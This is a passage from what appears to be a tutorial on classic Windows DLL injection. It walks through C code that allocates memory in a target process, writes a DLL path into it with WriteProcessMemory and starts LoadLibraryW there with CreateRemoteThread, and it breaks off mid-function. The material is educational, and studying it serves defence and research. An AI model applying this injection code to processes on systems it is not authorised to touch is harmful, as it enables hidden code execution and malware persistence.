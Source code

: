 
If a handle is returned back successfully, the loop ends. If not, the corresponding error is printed on the screen and if no match was found in the first place, the enumeration continues with ```Process32Next```.

#### InjectDllRemoteProcess - Injecting the DLL to the remote process
After the ```GetRemoteProcessHandle``` function is finished and we have gotten back a handle to the target process, it is time to inject our DLL into that process. All we need is a handle to that process and the path to our DLL to inject:  
```c
// Pass the wide character DLL path to the injection function
if (!InjectDllToRemoteProcess(hProcess, wideFullPath)) {
	printf("[!] DLL injection failed.\n");
	CloseHandle(hProcess);
	return -1;
}
```

Let's dive into this function responsible for the injection:
```c
BOOL InjectDllToRemoteProcess(IN HANDLE hProcess, IN LPWSTR DllName) {
	BOOL bSTATE = TRUE;
	LPVOID pLoadLibraryW = NULL;
	LPVOID pAddress = NULL;

	// Fetching the size of DllName *in bytes*
	DWORD dwSizeToWrite = (lstrlenW(DllName) + 1) * sizeof(WCHAR); // Include space for null terminator

	SIZE_T lpNumberOfBytesWritten = NULL;
	HANDLE hThread = NULL;

	// Get the address of LoadLibraryW in kernel32.dll
	pLoadLibraryW = GetProcAddress(GetModuleHandle(L"kernel32.dll"), "LoadLibraryW");
	if (pLoadLibraryW == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	// Allocate memory in the target process
	pAddress = VirtualAllocEx(hProcess, NULL, dwSizeToWrite, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	if (pAddress == NULL) {
		printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[i] pAddress Allocated At : 0x%p Of Size : %d\n", pAddress, dwSizeToWrite);
	printf("[#] Press <Enter> To Write ... ");
	getchar();

	// Write the DLL name to the allocated memory in the target process
	if (!WriteProcessMemory(hProcess, pAddress, DllName, dwSizeToWrite, &lpNumberOfBytesWritten) || lpNumberOfBytesWritten != dwSizeToWrite) {
		printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("[i] Successfully Written %d Bytes\n", lpNumberOfBytesWritten);
	printf("[#] Press <Enter> To Run ... ");
	getchar();

	// Create a remote thread in the target process to execute LoadLibraryW
	hThread = CreateRemoteThread(hProcess, NULL, NULL, pLoadLibraryW, pAddress, NULL, NULL);
```